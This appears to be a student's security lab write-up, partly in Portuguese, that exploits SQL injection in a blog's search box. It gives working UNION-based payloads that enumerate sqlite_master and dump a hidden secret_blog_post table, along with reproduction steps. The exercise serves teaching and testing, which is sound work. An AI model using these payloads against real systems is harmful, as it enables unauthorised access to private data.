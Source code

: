 SELECT id, title, content FROM blog_post WHERE title LIKE '' OR 1=1; -- ' OR content LIKE '%' asdasd%'

' UNION SELECT name, name, sql  FROM sqlite_master; -- 

primeiro tentei só com 1 name mas percebi que ambas a tabelas tinham de ter o mesmo numero de colunas por isso meti name name name, mas assim não saberia o nomo das colunas do secret_blog_post, e vi que substituindo o terceiro name por sql conseguia saber o nome das colunas.

secret_blog_post
CREATE TABLE secret_blog_post ( id INTEGER NOT NULL, title TEXT, content TEXT, PRIMARY KEY (id), UNIQUE (title) )

' UNION SELECT id, title, content FROM secret_blog_post; -- 


# ist193587

## Vulnerabilty

Endpoint is vulnerable to SQL injection

## Where

Situated in the blog posts search

## Impact

Allows the user to see secret posts.

## Steps to Reproduce

1. First i discovered with this payload in the blog search `'a'` some variables that the blog_posts has and how the code is.
2. With this in mind i looked into a sqlite_master and try to do a simple payload `' UNION SELECT name FROM sqlite_master; -- ` and saw the error saying that there is a difference in columns, with this in mind i made this change `' UNION SELECT name, name, sql  FROM sqlite_master; -- ` and i was able to see the hidden articles columns and find out the columns for secret_blog_post.  
3. With the columns of the secret_blog_post i did this payload `' UNION SELECT id, title, content FROM secret_blog_post; -- ` and we can see the content of the secret_blog_post